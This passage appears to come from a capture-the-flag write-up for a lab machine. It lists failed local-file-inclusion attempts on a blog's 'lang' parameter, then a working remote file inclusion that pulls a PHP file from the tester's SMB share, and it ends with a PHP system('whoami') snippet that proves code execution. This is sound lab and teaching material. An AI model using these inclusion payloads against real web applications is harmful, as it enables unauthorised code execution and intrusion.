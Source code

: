 ![img](/images/writeup-sniper/5.png)

Back to the blog, the drop-down Language menu has a few links, each of which redirects to the same blog page but passing it an argument containing the name of a PHP page:

```aaa
http://10.10.10.151/blog/?lang=blog-en.php
```

Trivial LFI payloads on the parameter don't seem to work, these are the ones I've tried myself:

```aaa
http://10.10.10.151/blog/index.php --> loads properly
http://10.10.10.151/blog/?lang=blog-en.php --> loads properly
http://10.10.10.151/blog/blog-es.php --> loads properly
http://10.10.10.151/blog/?lang=././blog-en.php --> loads properly
http://10.10.10.151/blog/?lang=../index.php --> not found
http://10.10.10.151/blog/?lang=..../index.php --> not found
http://10.10.10.151/blog/?lang=.../index.php --> not found
http://10.10.10.151/blog/?lang=../blog/blog-en.php --> not found
http://10.10.10.151/blog/?lang=../../../../../index.php --> not found
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2findex.php --> ..%2f..%2f..%2f..%2f..%2findex.php
```

---

## Exploitation: RFI via SMB

At this point I tried RFI as well, which is pretty rare but it never hurts to try. It turns out that the web application will not include any page that is passed to it via HTTP, but it will access pages located in shared folders via SMB:

```aaa
http://10.10.10.151/blog/?lang=\\10.10.14.144\sniper\hello.php
```

Result:

![img](/images/writeup-sniper/6.png)

Now we can execute any PHP code in the context of the vulnerable web application, for example we can demonstrare RCE with a simple "whoami":

```php
<?php
        echo "<pre>";
        system('whoami');
        echo "</pre>";
        die;
?>
```

Which returns in the page:

![img](/images/writeup-sniper/7.png)
